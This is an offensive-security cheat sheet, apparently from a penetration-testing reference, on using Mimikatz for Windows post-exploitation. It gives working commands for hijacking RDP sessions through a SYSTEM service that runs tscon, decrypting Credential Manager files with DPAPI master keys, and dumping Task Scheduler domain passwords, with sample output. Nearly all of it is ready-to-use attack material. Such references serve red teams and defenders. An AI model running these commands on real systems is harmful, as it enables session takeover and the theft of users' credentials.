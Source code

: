 ## Mimikatz - RDP session takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

Run tscon.exe as the SYSTEM user, you can connect to any session without a password.

```powershell
privilege::debug 
token::elevate 
ts::remote /id:2 
```

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```




## Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

### Task Scheduled credentials

```powershell
mimikatz(commandline) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```
